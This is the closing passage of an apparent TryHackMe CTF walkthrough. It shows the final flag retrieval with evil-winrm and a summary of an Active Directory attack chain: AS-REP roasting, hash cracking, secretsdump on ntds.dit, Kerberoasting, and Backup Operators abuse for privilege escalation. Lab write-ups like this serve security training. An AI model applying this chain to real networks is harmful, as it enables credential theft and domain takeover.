d-----        2/25/2021  10:13 AM                Top Secret


    Directory: C:\Program Files\Top Secret


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        2/25/2021  10:13 AM         449195 top_secret.png
```

That .png file is probably what we're after! I download the **c:\program files\top secret\top_secret.png** file to my home system using the evil-winrm download command and then open it up:


Ok, that's pretty funny actually. I'm familiar with VIM and already know how to exit, but for those who don't [**you can find out at this link**](https://www.freecodecamp.org/news/how-to-exit-vim/).

That gave us the answer to the 10th and final objective: What is the complete top secret?

<br>

With that we've completed this CTF!



<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Downloading files from a public facing **NFS share** to enumerate usernames
- Using **impacket-GetNPUsers** to gather a hash, which we crack with **hashcat** to gain access to SMB shares as user **twilliams**
- Enumeration of users with **crackmapexec** via **SMB**
- Finding an expired password on user **sbradley** which we reset with **smbpasswd** and use the account to find additional information via **SMB**
- Cracking the password on a .zip file from the **SMB** shares and finding **ntdis.dit** and **system.hive** files inside
- Using **impacket-secretsdump** with the 2 files we just found for a list user hashes
- Matching hashes to a system user using **crackmapexec** which allowed us initial system access by using **evil-winrm** to connect over to user **lvetrova**
- Finding an exported **powershell PSCredential** object that we were able to use **Import-CliXml** on to obtain the clear text password for **lvetrova**
- Using **impacket-GetUserSPNs** to request a ticket for system user **xyan1d3**, who ends up being in the **backup operators group**
- Abusing the backup operators group membership to use **robocopy /b** on several files we shouldn't have access to in order to gain additional information, and also escalate our privileges by adding ourselves to the **administrators group**

<br>

Many thanks to:
- [**Xyan1d3**](https://tryhackme.com/p/Xyan1d3) for creating this CTF
- **TryHackMe** for hosting this CTF

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)